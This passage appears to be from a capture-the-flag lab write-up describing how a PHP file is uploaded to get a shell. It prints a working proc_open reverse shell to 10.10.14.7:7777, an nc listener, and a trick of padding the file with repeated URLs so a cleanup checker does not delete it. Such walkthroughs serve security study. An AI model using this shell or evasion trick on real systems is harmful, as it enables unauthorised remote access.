 ![dev uploads]({{ page.img }}_dev_uploads.png)

Alright final step here is to create a shell and upload it. Except there is some clear issues here. The checker script will create the file and once the websites are pinged it will delete it. The location the file is placed in is an md5 time function, though that matters less to me given we can view the uploads directory itself. 

To combat the file being deleted once the sites are scanned we will add 100 **https://google.com** within a multiline comment. I retrofit the pentestmonkey shell. Now all that's left is to upload it and head to the created upload directory and get our shell.

```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777


```

Okay so that didn't work ... Odd the file was uploaded properly, it stalled long enough to run, and it clearly recognized the php. At this point I opted to look into other ways of making php shells to check if system() was disallowed to be used. Below are the options I found to run commands in php.

```php
system()
exec()
shell_exec()
passthru()
proc_open()
```

## proc_open()

Now I prefer to start at the bottom since the site I read eluded to proc_open being the hardest to comprehend and customize. [https://www.sitepoint.com/proc-open-communicate-with-the-outside-world/](https://www.sitepoint.com/proc-open-communicate-with-the-outside-world/) is where I retrofitted the script from. Effectively you define a cmd and run it through proc_open and never close the process.

```php
<?php
// descriptor array
$desc = array(
    0 => array('pipe', 'r'), // 0 is STDIN for process
    1 => array('pipe', 'w'), // 1 is STDOUT for process
    2 => array('file', '/tmp/error-output.txt', 'a') // 2 is STDERR for process
);

// command to invoke markup engine
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.7/7777 0>&1'";

// spawn the process
$p = proc_open($cmd, $desc, $pipes);
/*
https://google.com
https://google.com
...
https://google.com
https://google.com
*/
?>
```
